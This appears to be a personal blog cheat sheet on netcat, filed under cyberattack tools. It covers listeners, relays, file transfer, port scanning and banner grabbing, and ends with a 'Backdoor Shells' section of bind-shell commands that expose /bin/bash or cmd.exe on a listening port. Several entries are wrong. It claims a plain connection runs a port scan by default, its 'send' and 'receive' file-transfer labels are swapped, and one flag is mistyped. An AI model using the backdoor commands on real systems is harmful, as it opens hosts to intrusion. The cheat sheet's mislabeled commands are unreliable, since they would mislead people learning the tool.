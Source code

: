 ```yaml
---
title: Meow's Testing Tools - netcat
date: 2019-09-17 11:11:11 -0400
categories: [1CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


# netcat

[toc]

---

# Netcat Fundamentals

```bash
nc [options] [host] [port]
# by default this will execute a port scan

nc -l [host] [port]
# initiates a listener on the given port

Netcat Command Flags
nc -4 
# use IPv4 only

nc -6 
# use IPv6

nc -u 
# use UDP instead of TCP

nc -k -l 
# continue listening after disconnection

nc -n 
# skip DNS lookups

nc -v 
# provide verbose output
```

### Netcat Relays on Windows

```bash
nc [host] [port] > relay.bat
# open a relay connection

nc -l -p [port] -e relay.bat
# connect to relay
```

### Netcat Relays on Linux
```
nc -l -p [port] 0 (less than) backpipe (pipe) nc [client IP] [port] (pipe) tee backpipe
```

### Netcat File Transfer

```bash
nc [host] [port] (greater than) file_name.out
# send a file

nc [host] [port] (less than) file_name.in 
# receive a file
```


### Netcat Port Scanner

```bash
nc -zv site.com 80
# scan a single port

nc -zv hostname.com 80 84 
# scan a set of individual ports

nc -zv site.com 80-84 
# scan a range of ports
```


### Netcat Banners

```bash
echo “” | nc -zv -wl [host] [port range] 
# obtain the TCP banners for a range of ports
```

### Netcat Backdoor Shells

```bash
nc -l -p [port] -e /bin/bash 
# run a shell on Linux

nc -l -p [port] -e cmd.exe 
# run a shell on Netcat for Windows
```








ref:
- [nmap](https://nmap.org/bennieston-tutorial/)
